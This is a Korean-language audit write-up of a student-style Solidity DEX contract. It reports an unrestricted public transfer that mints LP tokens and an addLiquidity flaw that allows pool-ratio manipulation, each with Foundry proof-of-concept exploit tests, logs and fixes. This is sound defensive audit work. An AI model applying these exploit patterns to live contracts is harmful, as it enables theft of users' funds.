 # 김영운

## public transfer & mint LP token

****critical (공격 파급력: High, 공격 난이도: Low)****

```solidity
function transfer(address to, uint256 lpAmount) public override(ERC20, IDex) returns (bool) {
    _mint(to, lpAmount);
    return true;
}
```

ERC20 컨트랙트를 상속받은 Dex컨트랙트에서 LP token을 발급해주는 기능을 하는데, transfer함수를 public 가시성 지정자로 설정해 놨기 때문에 누구든 transfe함수를 호출하는 사람은 임의로 LP token을 발급받을 수 있다는 취약점이 존재한다.

#### PoC

```solidity
function testTransferVisibility() external {
    vm.startPrank(user1);
    dex.transfer(address(this), 1000 ether);
    uint amount = dex.balanceOf(address(this));
    console.log("balanceOf user1's LPtoken: %d", amount);
    amount = dex.totalSupply();
    console.log("amountOf LPtoken totalSupply: %d", amount);
    vm.stopPrank();
    assertTrue(!(amount == 1000 ether), "testTransferVisibility Error");
}
```

```solidity
[FAIL. Reason: Assertion failed.] testTransferVisibility() (gas: 72737)
Logs:
  balanceOf user1's LPtoken: 1000000000000000000000
  amountOf LPtoken totalSupply: 1000000000000000000000
  Error: testTransferVisibility Error
  Error: Assertion Failed
```

위와 같이 transfer함수를 호출함으로써 유동성 공급할 필요 없이 LP token을 mint할 수 있다.

#### 해결방안

transfer함수의 가시성 지정자를 private으로 변경하고 토큰을 민팅할 때도 _mint함수를 이용해서 minting하는 방법으로 바꿔야 한다.

## Imbalance addLiqudity 풀 오염

**medium (파급력: medium, 공격 난이도: Medium)**

```solidity
function addLiquidity(uint tokenXAmount, uint tokenYAmount, uint tokenMinimumOutputAmount) external override nonReentrant returns (uint) {
    require(tokenXAmount > 0 && tokenYAmount > 0, "Amounts must be greater than zero.");    
    require(tokenX.allowance(msg.sender, address(this)) >= tokenXAmount, "ERC20: insufficient allowance");
    require(tokenY.allowance(msg.sender, address(this)) >= tokenYAmount, "ERC20: insufficient allowance");
    require(tokenX.balanceOf(msg.sender) >= tokenXAmount, "ERC20: transfer amount exceeds balance");
    require(tokenY.balanceOf(msg.sender) >= tokenYAmount, "ERC20: transfer amount exceeds balance");
    
    uint lpTokenCreated;
    uint tokenXReserve;
    uint tokenYReserve;
    uint liquidityX;
    uint liquidityY;

    if (totalLiquidity == 0) {
        // 정밀도 
        lpTokenCreated = _sqrt(tokenXAmount * tokenYAmount); 
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity = lpTokenCreated;
    } else {
        {
            tokenXReserve = tokenX.balanceOf(address(this));
            tokenYReserve = tokenY.balanceOf(address(this));
        
            
            // L_x = X*P_x, L_y = Y*P_y (유동성 가치의 토큰 가치 비례) => P_x = L_x/X
            liquidityX = _div(_mul(tokenXAmount, totalLiquidity), tokenXReserve);
            liquidityY = _div(_mul(tokenYAmount, totalLiquidity), tokenYReserve);

        }
        // 최소 수량 유동성 공급 검증
        lpTokenCreated = (liquidityX < liquidityY) ? liquidityX : liquidityY;
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity += lpTokenCreated;
    }

    liquidity[msg.sender] += lpTokenCreated;
    tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
    tokenY.transferFrom(msg.sender, address(this), tokenYAmount);

    transfer(msg.sender, lpTokenCreated);
    emit AddLiquidity(msg.sender, tokenXAmount, tokenYAmount);
    
    return lpTokenCreated;
}
```

최소 유동성을 기준으로 LP token을 발급해주는 방식으로 addLiquidity가 구현되어 잇는데, 이 때 imbalance한 공급을 주더라도 transferFrom으로 전부 받아오도록 되어 있다.

이를 이용한 공격 시나리오는 다음과 같다.

1. A는 100 ETH를 가지고 있고, ETH price = 4000 ether, USDC price = 1 ether인 상황
2. Lending protocol의 ETH-USDC 풀에 ETH조금과 USDC를 엄청 많이 addLiquidity한다.
3. 풀의 토큰 비율이 변경되었으므로 A는 변경된 비율로 ETH를 USDC로 swap한다.
4. 기존의 ETH로 얻을 수 있는 USDC의 양보다 많은 양의 USDC를 swap할 수 있게 된다.

#### PoC

```solidity
function testManyETH() external {
    dex.addLiquidity(4000000 ether, 1000 ether, 0);
    vm.startPrank(user1);
    uint lp = dex.addLiquidity(8000000 ether, 1 wei, 0);
    uint outputUSDC = dex.swap(0, 1000 ether, 0);
    console.log("outputUSDC: %d", outputUSDC);
    console.log("1000*4000: %d", 1000 * 4000 ether);
    vm.stopPrank();
}
```

```solidity
[PASS] testManyETH() (gas: 321793)
Logs:
  outputUSDC: 5996998499249624812403203
  1000*4000: 4000000000000000000000000
```

공격자는 해당 풀의 균형을 깨트려서 비싼 가격에 ETH를 swap했고, 슬리피지가 없는 스왑을 했다고 쳐도 그 이상의 이익을 볼 수 있다.

#### 해결방안

```solidity
function addLiquidity(uint tokenXAmount, uint tokenYAmount, uint tokenMinimumOutputAmount) external override nonReentrant returns (uint) {
    require(tokenXAmount > 0 && tokenYAmount > 0, "Amounts must be greater than zero.");    
    require(tokenX.allowance(msg.sender, address(this)) >= tokenXAmount, "ERC20: insufficient allowance");
    require(tokenY.allowance(msg.sender, address(this)) >= tokenYAmount, "ERC20: insufficient allowance");
    require(tokenX.balanceOf(msg.sender) >= tokenXAmount, "ERC20: transfer amount exceeds balance");
    require(tokenY.balanceOf(msg.sender) >= tokenYAmount, "ERC20: transfer amount exceeds balance");
    
    uint lpTokenCreated;
    uint tokenXReserve;
    uint tokenYReserve;
    uint liquidityX;
    uint liquidityY;

    if (totalLiquidity == 0) {
        // 정밀도 
        lpTokenCreated = _sqrt(tokenXAmount * tokenYAmount); 
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity = lpTokenCreated;
    } else {
        {
            tokenXReserve = tokenX.balanceOf(address(this));
            tokenYReserve = tokenY.balanceOf(address(this));
        
            
            // L_x = X*P_x, L_y = Y*P_y (유동성 가치의 토큰 가치 비례) => P_x = L_x/X
            liquidityX = _div(_mul(tokenXAmount, totalLiquidity), tokenXReserve);
            liquidityY = _div(_mul(tokenYAmount, totalLiquidity), tokenYReserve);

        }
        // 최소 수량 유동성 공급 검증
        lpTokenCreated = (liquidityX < liquidityY) ? liquidityX : liquidityY;
        if(lpTokenCreated == liquidityX){
            tokenYAmount = tokenYReserve * tokenXAmount / tokenXReserve;
        }else{
            tokenXAmount = (tokenXReserve * tokenYAmount) / tokenYReserve;
            console.log("!%d",tokenXAmount);
        }
        require(lpTokenCreated >= tokenMinimumOutputAmount, "Minimum liquidity not met."); 
        totalLiquidity += lpTokenCreated;
    }

    liquidity[msg.sender] += lpTokenCreated;
    tokenX.transferFrom(msg.sender, address(this), tokenXAmount);
    tokenY.transferFrom(msg.sender, address(this), tokenYAmount);

    transfer(msg.sender, lpTokenCreated);
    emit AddLiquidity(msg.sender, tokenXAmount, tokenYAmount);
    
    return lpTokenCreated;
}
```

```solidity
[PASS] testManyETH() (gas: 322673)
Logs:
  outputUSDC: 1998999499749874937469733
  100*4000: 400000000000000000000000
```

유동성 공급량이 적은 토큰을 기준으로 비율을 깨는 토큰은 받지 않도록 tokenAmount를 변경했다.

위 패치를 통해서 imbalance한 토큰으로 LP token을 얻는 방식의 공격도 막을 수 있게 된다.
